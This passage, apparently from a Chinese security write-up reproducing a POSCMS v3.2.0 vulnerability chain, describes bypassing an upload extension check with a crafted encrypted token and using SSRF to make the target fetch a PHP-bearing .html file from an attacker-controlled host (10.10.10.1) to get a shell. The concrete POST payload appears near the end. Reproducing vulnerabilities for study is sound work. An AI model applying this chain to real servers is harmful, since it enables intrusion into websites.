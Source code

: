 获取到安全密钥后，可以构造特殊payload绕过扩展名检查。这里，总结一下此次GetShell的思路：

1. 构造特殊payload使.html文件允许被上传
2. 在自己控制的服务器上放置.html文件（里面有恶意代码的php代码）
3. 利用SSRF漏洞，使被攻击服务器用http协议访问带外数据（OOB），获取到恶意的.html，形成Getshell

为了绕过扩展名检查，我将加密代码拷贝进另一文件并填入密钥，输入选择`1|html,|0`，运行得到输出为`22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，并构造POST参数`file=http://10.10.10.1/haha.html&url=code=22d7Qrdws88/R/uETpWlvY/PFNTYzvs/QNj5PBa66veNDlECqpM`，这里的`haha.html`里包含了php代码`<?php echo phpinfo();?>`，最终效果如下：

![](POSCMSv3-2-0漏洞套餐复现\14.png)

![](POSCMSv3-2-0漏洞套餐复现\15_meitu_2.png)

如果这里复现失败了，那大概是在于两点：一、加密函数有时效性，过时需要重新生成；二、CentOS默认安装的Apache无法解析包含php代码的html文件，需要在`/etc/httpd/conf.d/php.conf`中添加如下：
